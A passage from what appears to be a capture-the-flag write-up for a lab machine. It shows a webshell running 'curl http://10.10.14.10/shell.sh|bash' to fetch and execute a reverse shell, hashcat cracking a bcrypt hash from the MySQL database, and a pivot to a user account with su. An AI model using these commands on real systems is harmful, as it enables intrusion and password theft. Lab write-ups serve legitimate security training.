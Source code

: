 ```bash
# Use the webshell to curl the reverse shell and pipe it to bash
curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=curl http://10.10.14.10/shell.sh|bash"
```
I then use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to get a better shell.

Once on the box, I log in to the MySQL database to see if I can get anything useful. I find 2 hashes for `logan` and `lewis`.  I use `hashid` to identify them as bcrypt with hashcat mode 3200
```bash
hashid -m '$2y$10$<REDACTED>'               
Analyzing '$2y$10$<REDACTED'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
I am able to crack `logan's` password in hashcat
```bash
hashcat -a 0 -m 3200 logan /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3
hashcat (v6.2.6) starting

<...SNIP...>

Dictionary cache hit:
* Filename..: /opt/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$<REDACTED>:teq<REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sat Nov 25 21:18:17 2023 (8 secs)
Time.Estimated...: Sat Nov 25 21:18:25 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1212 H/s (65.80ms) @ Accel:16 Loops:8 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> 11221122
Hardware.Mon.#1..: Temp: 38c Fan: 28% Util:100% Core:2010MHz Mem:7000MHz Bus:16

Started: Sat Nov 25 21:18:12 2023
Stopped: Sat Nov 25 21:18:27 2023
```
Checking `/etc/passwd`, I see that the only other user on the box is `logan`, I try out his password, and it allows me to switch over to his account.
```bash
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ su logan
Password: 
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ 
```
The first thing I do on `logan's` account is check `sudo -l` to see if he can run anything interesting.
```bash
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo -l
[sudo] password for logan: 
```